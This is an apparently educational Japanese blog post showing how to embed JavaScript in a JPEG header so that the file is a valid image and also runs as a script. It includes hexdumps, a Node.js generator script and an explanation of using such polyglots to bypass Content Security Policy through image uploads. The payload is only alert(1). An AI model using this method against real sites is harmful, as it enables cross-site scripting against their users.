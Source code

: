 ```yaml
---
title: JPEG画像にJavaScriptのコードを埋め込んでみる
date: 2020-02-14
description: JPEG画像にJavaScriptのコードを埋め込んでみる
tags: ['セキュリティ']
---
```

JPEG画像にJavaScriptのコードを埋め込む手法が紹介されていたので試してみました。  
今回は次の画像に対してコードの埋め込んでみます。

![埋め込み画像](/images/posts/inject-jpeg-js/donarudo.jpg)

## 注意

この記事は攻撃方法を知ることでセキュリティを学ぶことを前提としており、実験も仮想環境上で実行しています。  
決して外部サイトに対して実行しないようにしてください。

## 画像のバイナリを見てみる

今回試す方法は画像のバイナリを変更してコードを埋め込んでいます。  
そこで、最初は画像のバイナリを確認してみます。

```shell
$ hexdump -C donarudo.jpg | head -n 5
00000000  ff d8 ff e0 00 10 4a 46  49 46 00 01 01 00 00 01  |......JFIF......|
00000010  00 01 00 00 ff e1 00 6c  45 78 69 66 00 00 49 49  |.......lExif..II|
00000020  2a 00 08 00 00 00 03 00  31 01 02 00 07 00 00 00  |*.......1.......|
00000030  32 00 00 00 12 02 03 00  02 00 00 00 02 00 02 00  |2...............|
00000040  69 87 04 00 01 00 00 00  3a 00 00 00 00 00 00 00  |i.......:.......|

$ hexdump -C donarudo.jpg | tail -n 3
000038f0  99 e8 80 e7 8a 5a 68 a7  57 de a3 e7 02 8a 28 a6  |.....Zh.W.....(.|
00003900  01 45 14 50 01 45 14 50  07 ff d9                 |.E.P.E.P...|
0000390b
```

先頭の2バイト **FF D8** はSOIマーカーと呼ばれ、JPEGフォーマットの開始を表しています。  
次の2バイト **FF E0** はセグメントの種類を表しており、次の2バイトの **00 10** がセグメントの長さを示していて
10進数で 16 なので、**00 10** を含む16バイト分（**FF E1** の手前まで) がセグメントであるのが分かります。  
最後の **FF D9** はEOIマーカーと呼ばれ、JPEGフォーマットの終了を表しています。

今回はこのセグメント内に `alert(1)` のjsコードを埋め込んでいきます。16進数のバイナリ表現は次のように取得できます。

```javascript
$ node
> 'alert(1);'.split('').map(i => i.charCodeAt(0).toString(16)).join('')
'616c6572742831293b'
```

## jsコードを埋め込む

↓がバイナリを変更して、jsコードを埋め込んでみた様子です。  

```shell
$ hexdump -C donarudo_01.jpg | head -n 5
00000000  ff d8 ff e0 00 10 4a 46  49 46 00 61 6c 65 72 74  |......JFIF.alert|
00000010  28 31 29 00 ff e1 00 6c  45 78 69 66 00 00 49 49  |(1)....lExif..II|
00000020  2a 00 08 00 00 00 03 00  31 01 02 00 07 00 00 00  |*.......1.......|
00000030  32 00 00 00 12 02 03 00  02 00 00 00 02 00 02 00  |2...............|
00000040  69 87 04 00 01 00 00 00  3a 00 00 00 00 00 00 00  |i.......:.......|
```

このままjsのコードとして読み込んでも、無効な文字列を含んでおりjsの読み込みでエラーが発生します。  
jsは `/*....*/` で囲む事でコメントとしてコードを無視することが出来るので、それを利用して画像データの部分をコメントアウトして、jsとして有効なコードであるように偽装する事が可能です。

```shell
$ hexdump -C bad-donarudo.jpg | head -n 6
00000000  ff d8 ff e0 2f 2a 4a 46  49 46 00 01 01 00 00 01  |..../*JFIF......|
00000010  00 01 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000020  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
00002f20  2a 2f 3d 61 6c 65 72 74  28 31 29 3b 2f 2a ff e1  |*/=alert(1);/*..|
00002f30  00 6c 45 78 69 66 00 00  49 49 2a 00 08 00 00 00  |.lExif..II*.....|

$ hexdump -C bad-donarudo.jpg | tail -n 3
00006810  68 a7 57 de a3 e7 02 8a  28 a6 01 45 14 50 01 45  |h.W.....(..E.P.E|
00006820  14 50 07 ff d9 2a 2f ff  d9                       |.P...*/..|
00006829
```

実際にコメントアウトの対応をしてjsコードを埋め込んだ画像のバイナリがこんな感じです。

先頭の4バイト **FF D8 FF E0** は有効な非ASCII文字のJavaScript変数になります。次の **2F 2A** がセグメントの始まりで、セグメントの部分を `/*.../*` でコメントアウトしています。 次に、`=` を差し込み変数代入とすることで、先頭の4バイトを変数として扱い有効な文字列としています。続いて `alert(1);` を実行コードとして差し込んでいます。その後、`/*...*/` で残りのJEPG画像データの部分をコメントアウトしています。

また、セグメント開始の **2F 2A** はセグメント長を表現しており、10進数で 12074 なので、セグメント長を合わせるために、12074 - 16 - 14 = 12044バイト をヌルバイト（**00**）で埋めています。

本来のセグメント部分:  
`2F 2A 4A 46 49 46 00 01 01 00 00 01 00 00 00 10 00 01` の16バイト  

埋め込みjsコード部分:  
`*/alert(1);/*` => `2a2f3d616c6572742831293b2f2a` 14バイト

有効なjsコードの部分だけを表現すると次のようになります。

```js
<有効な非アスキー文字>=alert(1);
```

このjsコードの埋め込みは次のプログラムで実現できます。

```js
const fs = require('fs');

const image = fs.readFileSync('donarudo.jpg');
const hex = image.toString('hex');
const soi = hex.substr(0,8);
const commentStart = '2f2a'; // /*
const header = hex.substr(12,28);
const nullBytes = Array(12044).fill('00').join('');
const code = `*/=alert(1);/*`.split('').map(e => e.charCodeAt(0).toString(16)).join('');
const payload = hex.substr(40, hex.length - 4);
const commentEnd = '2a2f'; // */
const eoi = hex.substr(hex.length - 4);
const injectedJsJpeg = soi + commentStart + header + nullBytes + code + payload + commentEnd + eoi;
const hexBinary = new Buffer(injectedJsJpeg, 'hex');

fs.writeFileSync('bad-donarudo.jpg', hexBinary);
```

## JPEG画像を読み込んでみる

jsを埋め込んだ画像を読み込んでみます。

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Document</title>
</head>
<body>
    <img src="bad-donarudo.jpg"/>
    <script src="bad-donarudo.jpg"></script>
</body>
</html>
```

![JavaScriptを埋め込んだ画像](/images/posts/inject-jpeg-js/donarudo-xss.png)

正常に画像は表示されて、jsファイルとしても読み込む事ができました！  
Chromeでは対策済みでアラートが表示されず、IE11でアラートの表示が確認できました。

実現可能なブラウザは限られますが、日本国内ではまだまだIE11の利用ユーザーは多いので無視できない手法です。

## 攻撃の使われ方

これで簡単にXSSが出来るのかなと思ったのですが、<img>タグで読み込んだ場合はあくまで画像として処理されるので、コードが実行されることはありません。  
あくまで、攻撃対象のサイト上で \<script>タグで画像を読み込ませる必要があります。  

ではこの手法がどのような攻撃に利用されるかというと、**[コンテンツセキュリティポリシー（CSP）](https://developer.mozilla.org/ja/docs/Web/HTTP/CSP)のバイパス** に利用されます。  
CSPが有効になっているWebサイトでは別ドメインからのjsファイルの読み込みやインラインスクリプトの実行がブロックされます。そのため、\<script>タグを埋め込む事ができてもXSSを防ぐ事が可能になります。

しかし、Webサイトに画像アップロードが機能があった場合に、jsコードを埋め込んだ画像をアップロードして、その画像を読み込むように\<script>タグを埋め込むめば、CSPのセキュリティをくぐり抜けてxssを実現することが可能になります。

```html
<!-- Webサーバーに配置されている自分がアップロードしたjsコードを埋め込んだJPEG画像 -->
<script src="/public/images/xss.jpg"></script>
```


最近はS3などにアップロードした画像が配置されるパターンが多く、その場合は画像読み込みがCSPのポリシー対象である外部ドメインとなるので、利用できる状況はかなり限定的なのかな？と思います。

## 参考文献
* [Hiding JavaScript in Picture Files for XSS](https://www.youtube.com/watch?v=memPcI94YGA)
* [Hiding JS in a JPEG header.](https://medium.com/@codedbrain/hiding-js-in-a-jpeg-header-454386f9e20)
* [Bypassing CSP using polyglot JPEGs](https://portswigger.net/research/bypassing-csp-using-polyglot-jpegs)
* [Content Security Policyについて語る](http://www.nowhere.co.jp/blog/archives/20190315-080010.html)
* [JPEGファイルの構造](https://hp.vector.co.jp/authors/VA032610/JPEGFormat/StructureOfJPEG.htm)
